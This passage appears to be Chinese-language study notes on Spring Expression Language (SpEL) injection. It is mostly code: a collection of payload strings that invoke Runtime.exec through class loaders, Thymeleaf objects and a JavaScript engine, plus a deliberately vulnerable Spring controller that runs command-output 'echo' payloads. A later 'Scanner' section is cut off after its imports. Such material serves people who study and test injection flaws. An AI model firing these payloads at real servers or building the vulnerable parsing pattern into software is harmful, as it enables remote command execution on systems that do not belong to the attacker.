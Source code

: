 ```java
String cmdStr = "T(org.springframework.expression.Expression).getClassLoader().getSystemClassLoader().loadClass(\"java.lang.Runtime\").getMethod(\"getRuntime\").invoke(null).exec(\"calc\")";
"T(org.thymeleaf.context.AbstractEngineContext).getClass().getClassLoader().getSystemClassLoader().loadClass(\"java.lang.Runtime\").getMethod(\"getRuntime\").invoke(null).exec(\"calc\")";

#web服务下通过内置对象


"{request.getClass().getClassLoader().loadClass("java.lang.Runtime").getMethod("getRuntime").invoke(null).exec("exec")}"
 String cmdStr = "username[#this.getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"javascript\").eval(\"java.lang.Runtime.getRuntime().exec('calc')\")]=asdf";
```
<a name="wgnba"></a>
# 回显
<a name="Zxeji"></a>
## BufferedReader
```java
package com.enterpr1se.spring.controller;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.SpelParserConfiguration;
import org.springframework.expression.spel.standard.SpelExpressionParser;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;

@Controller
public class spelcontroller {

    @RequestMapping("/spel")
    @ResponseBody
    public String spelvul(String payload){
        String cmdStr = "T(java.lang.ClassLoader).getSystemClassLoader().loadClass('java.lang.Runtime').getRuntime().exec('calc')";
        payload="new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder(\"cmd\", \"/c\", \"dir\").start().getInputStream(), \"gbk\")).readLine()";
        ExpressionParser parser = new SpelExpressionParser(new SpelParserConfiguration());//创建解析器
        Expression exp = parser.parseExpression(payload);//解析表达式
        return (String) exp.getValue();
    }
}

```
一般不会让你控制return的，看看就好，而且只显示一行。

<a name="wwXd8"></a>
## Scanner
```java
package com.enterpr1se.spring.controller;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.SpelParserConfiguration;
import org.springframework.expression.spel.standard.SpelExpressionParser;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;

```